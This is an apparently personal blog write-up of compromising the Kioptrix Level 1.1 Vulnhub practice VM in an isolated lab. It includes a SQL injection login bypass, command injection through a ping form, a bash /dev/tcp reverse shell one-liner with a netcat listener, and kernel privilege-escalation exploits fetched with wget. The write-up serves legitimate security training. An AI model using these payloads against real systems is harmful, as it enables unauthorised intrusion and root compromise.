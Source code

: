 ```yaml
---
layout: post
title: Vulnhub: Kioptrix 2
---
```


This is my first writeup of a Vulnhub VM, so let's see how this goes...

This writeup is for the Kioptrix: Level 1.1 (#2) found [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

The VM was run using VMWare and the attacking machine was a Kali Linux VM running in Virtualbox, both in host-only networking mode.

## Recon and Enumeration
I used netdiscover to find the IP of the box.
```
root@kali:~# netdiscover
```
![netdiscover output]({{ site.baseurl }}/images/KioptrixLevel1_1/netdiscover.png "netdiscover output")

Because I knew that the VM was running in VMWare, I chose the VMWare IP, 192.168.56.106

I then ran `nmap` to find open ports with services running on them.

```
root@kali:~# nmap 192.168.56.106
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-20 13:18 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.106
Host is up (0.0015s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 00:0C:29:51:2F:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

I noticed that there may be an http server running on the box, so I went to the IP address in a web browser and was presented with a logon page.

## Vulnerability Discovery and Exploitation

![Logon page]({{ site.baseurl }}/images/KioptrixLevel1_1/logon.png "Logon page")

I tested a few basic username and password combinations, but it didn't seem to do anything. I ran OWASP ZAP to find any potential vulnerabilities or hidden pages. Using an automated scan, ZAP detected a possible SQL injection vulnerability on the logon page.

![ZAP Results]({{ site.baseurl }}/images/KioptrixLevel1_1/zap.png "ZAP Results")

I plugged the attack used (`ZAP' OR '1'='1' --`) into the username field and was presented with a form to ping a machine on the network. I immanently suspected there to be a bash injection vulnerability, but I plugged in an IP to make sure.

This brought me to a page containing the output to the ping command.

![ping results]({{ site.baseurl }}/images/KioptrixLevel1_1/ping.png "ping Results")

I ran `; ls` to make sure that I could inject a command and was presented with a directory listing. Next, I injected a reverse shell by first opening a netcat listener on my Kali VM and then putting the shell code into the form.

```
root@kali:~# nc -nvlp 1234
```

```
; bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
```

This presented me with a shell on my Kali VM.

![Reverse Shell]({{ site.baseurl }}/images/KioptrixLevel1_1/shell.png "Reverse Shell")

## Privilege Escalation

I first check the user that I am.

```
bash-3.00$ whoami
apache
```

I look around a bit to find possible things to exploit, but I can't find anything obvious.

Next, I check the kernel version to see if there are any exploits available.

```
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

I found that the box was vulnerable to ['ip_append_data()' Ring0 Privilege Escalation](https://www.exploit-db.com/exploits/9542).

Because neither box was connected to the internet, I used a shared folder on my Kali VM to move the exploit to it. I then used the python SimpleHTTPServer to send the file to the box.

```
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

I used `wget` on the box to retrieve the file from my Kali VM.

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.56.101/9542.c
--10:41:56--  http://192.168.56.101/9542.c
           => `9542.c'
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%    5.65 MB/s

10:41:56 (5.65 MB/s) - `9542.c' saved [2643/2643]
```

I then compiled it according to the instructions and ran it.

```
bash-3.00$ gcc -o 9542 9542.c
bash-3.00$ ./9542
[-] exploit failed, try again
```

This unfortunately didn't work. I looked at the source code to figure out why, but couldn't figure it out as this error is supposed to happen when the uid did not change with the exploit.

I uploaded [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) and ran it to find other potential vulnerabilities with the box.

```
bash-3.00$ python linuxprivchecker.py
...
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...

    Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!

    The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c

    The following exploits are applicable to this kernel version and should be investigated as well
    - Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
    - 2.x sock_sendpage() Local Root Exploit 2 || http://www.exploit-db.com/exploits/9436 || Language=c
    - open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
    - 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver) || http://www.exploit-db.com/exploits/9479 || Language=c
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit [2] || http://www.exploit-db.com/exploits/9598 || Language=c
    - open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
    - CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
    - 2.6.x ptrace_attach Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8673 || Language=c
    - 2.x sock_sendpage() Local Ring0 Root Exploit || http://www.exploit-db.com/exploits/9435 || Language=c
    - 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) || http://www.exploit-db.com/exploits/926 || Language=c
    - CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit (ppc) || http://www.exploit-db.com/exploits/9545 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
    - Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
    - 2.4/2.6 sock_sendpage() Local Root Exploit [3] || http://www.exploit-db.com/exploits/9641 || Language=c
    - 2.4.x / 2.6.x uselib() Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/895 || Language=c

Finished
=================================================================================================
```

I tested the [2.6 UDEV < 141 Local Privilege Escalation Exploit](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) using the same methodology as above, but it didn't work either. I went down to the [2.4/2.6 sock_sendpage() Local Root Exploit (ppc)](http://www.exploit-db.com/exploits/9545), once again with the same methodology
and this time it worked.

![Root]({{ site.baseurl }}/images/KioptrixLevel1_1/root.png "Root")

